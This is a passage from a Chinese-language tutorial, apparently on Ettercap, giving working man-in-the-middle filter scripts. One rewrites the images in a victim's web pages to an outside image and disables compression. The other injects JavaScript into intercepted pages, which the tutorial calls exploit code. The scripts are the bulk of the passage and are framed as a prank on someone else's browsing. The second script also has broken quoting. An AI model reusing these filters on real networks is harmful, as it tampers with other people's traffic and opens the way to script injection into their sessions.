 　　![img](../../../../../ImageAssets/270105101064311-1573358989636.png)

　　(2) 替换网页的图片:

　　貌似上面的恶搞还不爽,那就把他浏览网页时的图片换掉试试,使用的脚本是etter.filter.images,如下:



```bash
if (ip.proto == TCP && tcp.dst == 80) {
   if (search(DATA.data, "Accept-Encoding")) {
      replace("Accept-Encoding", "Accept-Rubbish!"); 
      # note: replacement string is same length as original string
      msg("zapped Accept-Encoding!\n");
   }
}
if (ip.proto == TCP && tcp.src == 80) {
   replace("img src=", "img src=\"http://www.iyi8.com/uploadfile/2014/0921/20140921113722651.jpg\" ");
   replace("IMG SRC=", "img src=\"http://www.iyi8.com/uploadfile/2014/0921/20140921113722651.jpg\" ");
   msg("Filter Ran.\n");
}
```



　　(3) JavaSproit注入:

　　技术有限,这里就简单的弹个窗吧 :(　使用的脚本是etter.filter.alert：

```bash
if (ip.proto == TCP && tcp.dst == 80) {
    if (search(DATA.data, "Accept-Encoding")) {
           replace("Accept-Encoding", "Accept-Rubbish!");
           msg("zapped Accept-Encoding!\n");
    }
}
if (ip.proto == TCP && tcp.src == 80) {
    if (search(DATA.data, "<body")) {
        replace("<head","<head<script type="text/javascript"alert('just for a test!');</script");
        replace("<HEAD","<HEAD<script type="text/javascript"alert('just for a test');</script");
        msg("Filter run!...Exploit code injected ok!\n");
    }
}
```


